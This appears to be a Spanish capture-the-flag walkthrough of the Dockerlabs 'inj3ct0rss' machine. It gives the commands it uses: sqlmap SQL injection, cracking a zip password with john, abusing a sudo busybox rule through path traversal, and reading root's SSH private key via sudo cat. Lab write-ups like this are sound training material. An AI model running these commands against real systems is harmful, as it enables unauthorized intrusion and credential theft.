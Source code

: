 # inj3ct0rss

Maquina nivel medio de [Dockerlabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio

![dockerlabs](../../../maquina-inj3ct0rss/imagenes/dockerlabs.png)

## INTRUSION

Comenzamos entrando por el navegador a la ip `172.17.0.2`

**PUERTO 80:**

![80](../../../maquina-inj3ct0rss/imagenes/80.png)

Al parecer es una web para practicar hacking, de todo lo que dice, lo interesante es "Desafíos de SQL Injection", ya que hay un panel de login.

Para la inyeccion sql podemos usar sqlmap guardandonos la peticion al iniciar sesion. Para hacerlo capturamos y guardando la peticion con burpsuite, para guardarla damos click derecho en la peticion y tocamos donde dice `Copy to file` y lo guardamos con el nombre que queramos.

Luego ejecutamos el siguiente comando:

```css
sqlmap -r request --dump -batch --level 5 -risk 3
```

Sqlmap nos encuentra varios usuarios y contraseñas, pero lo unico que nos interesa es la password `no_mirar_en_este_directorio`, por lo que entramos del navegador y vemos un zip el cual nos descargamos.

Al intentar descomprimirlo nos pide una contraseña, entonces tendremos que sacar el hash con `zip2john` y luego intentar crackear la contraseña usando `john`. Luego de capturar el hash ejecutaremos el siguiente comando para crackear la contraseña:

```css
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```ruby
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer         (secret.zip/confidencial.txt)     
1g 0:00:00:00 DONE (2024-08-18 20:10) 33.33g/s 136533p/s 136533c/s 136533C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Ahora si teniendo la contraseña vamos a descomprimir el zip y nos deja un archivo que se llama `confidencial.txt`, lo leemos y vemos lo siguiente:

```css

You have to change your password ralf, I have told you many times, log into your account and I will change your password.

Your new credentials are:

ralf:-------------

```

Asi que teniendo el usuario y contraseña nos conectamos mediante ssh.

## ESCALADA DE PRIVILEGIOS

### RALF

Siendo el usuario ralf vemos que podemos ejecutar con `sudo -l` y vemos lo siguiente:

```ruby
ralf@b09cee7bd1c1:~$ sudo -l
Matching Defaults entries for ralf on b09cee7bd1c1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User ralf may run the following commands on b09cee7bd1c1:
    (capa : capa) NOPASSWD: /usr/local/bin/busybox /nothing/*
ralf@b09cee7bd1c1:~$ 

```

Para poder escalar privilegios me fijé en [GTFOBins](https://gtfobins.github.io/) pero nuestro caso es distinto, entonces tendremos que hacer lo siguiente:

```css
sudo -u capa /usr/local/bin/busybox /nothing/../../../../bin/ls /home/capa
```

esto nos muestra que hay un archivo llamado `passwd.txt` por lo que ahora lo leeremos ejecutando:

```css
sudo -u capa /usr/local/bin/busybox /nothing/../../../../bin/cat /home/capa/passwd.txt
```

Habiendo hecho esto ya tendremos la contraseña del usuario capa.

### CAPA

Siendo capa ejecutamos `sudo -l` y vemos que podemos ejecutar como root el binario cat. Entonces luego de fijarme nuevamente en [GTFOBins](https://gtfobins.github.io/), veo que puedo leer archivos del sistema, entonces haremos lo siguiente:

```css
LFILE=/root/.ssh/id_rsa
```

y lo leemos con:

```css
sudo cat "$LFILE"
```

Esto nos dará la clave privada del ssh del usuario root, ahora nos la guardaremos en nuestra maquina local como `id_rsa` y le damos permisos con `chmod 600`, luego ponemos `ssh -i id_rsa root@172.17.0.2` y listo, somos root.

![root](../../../maquina-inj3ct0rss/imagenes/root.png)

Esta maquina tiene flags. Chau....
